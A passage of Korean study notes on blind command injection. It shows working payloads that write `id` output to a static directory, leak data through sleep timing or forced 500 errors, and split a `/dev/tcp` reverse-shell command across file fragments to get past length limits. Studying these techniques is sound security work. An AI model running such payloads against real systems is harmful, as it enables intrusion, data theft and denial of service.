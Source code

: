     - Static File Directory : 정적 리소스를 다루기 위한 Directory. static으로 설정
        - 조건 : 디렉터리에 파일 생성 권한이 있어야 함
        
        ```python
        mkdir static; id > static/result.txt
        ```
        
- 참/거짓 비교문 : sleep, Dos(에러) 방법 사용
    - sleep : 앞 명령어가 참인 경우 sleep 실행
        
        ```python
        bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then sleep 2; fi;" # --> sleep for 2 seconds; true
        bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then sleep 2; fi;" # --> sleep for 2 seconds; true
        bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then sleep 2; fi;" # --> sleep for 0 seconds; false
        bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then sleep 2; fi;" # --> sleep for 2 seconds; true
        ```
        
    - Dos : 앞 명령어가 참인 경우 메모리가 많이 소모하는 명령어를 입력하여 500 error 발생. 주로 `cat /dev/urandom` 사용
        
        ```python
        bash -c "a=\$(id | base64 -w 0); if [ \${a:0:1} == 'd' ]; then cat /dev/urandom; fi;" # --> 500 true
        bash -c "a=\$(id | base64 -w 0); if [ \${a:1:1} == 'W' ]; then cat /dev/urandom; fi;" # --> 500 true
        bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'a' ]; then cat /dev/urandom; fi;" # --> 200 false
        bash -c "a=\$(id | base64 -w 0); if [ \${a:2:1} == 'l' ]; then cat /dev/urandom; fi;" # --> 500 true
        ```
        

### Payload 길이 제한

- Redirction 사용 : Redirection(>)을 이용하여 조각 단위로 파일에 나눠서 씀 임의 디렉토리에 파일 생성 후 Bash 또는 파이썬과 같은 인터프리터 이용하여 공격
    
    ```python
    printf bas>/tmp/1
    printf h>>/tmp/1
    printf \<>>/tmp/1
    printf /d>>/tmp/1
    printf ev>>/tmp/1
    printf /t>>/tmp/1
    printf cp>>/tmp/1
    printf />>/tmp/1
    printf 1 >>/tmp/1
    printf 2 >>/tmp/1
    printf 7.>>/tmp/1
    printf 0.>>/tmp/1
    printf 0.>>/tmp/1
    printf 1/>>/tmp/1
    printf 1 >>/tmp/1
    printf 2 >>/tmp/1
    printf 3 >>/tmp/1
    printf 4 >>/tmp/1
    bash</tmp/1&
    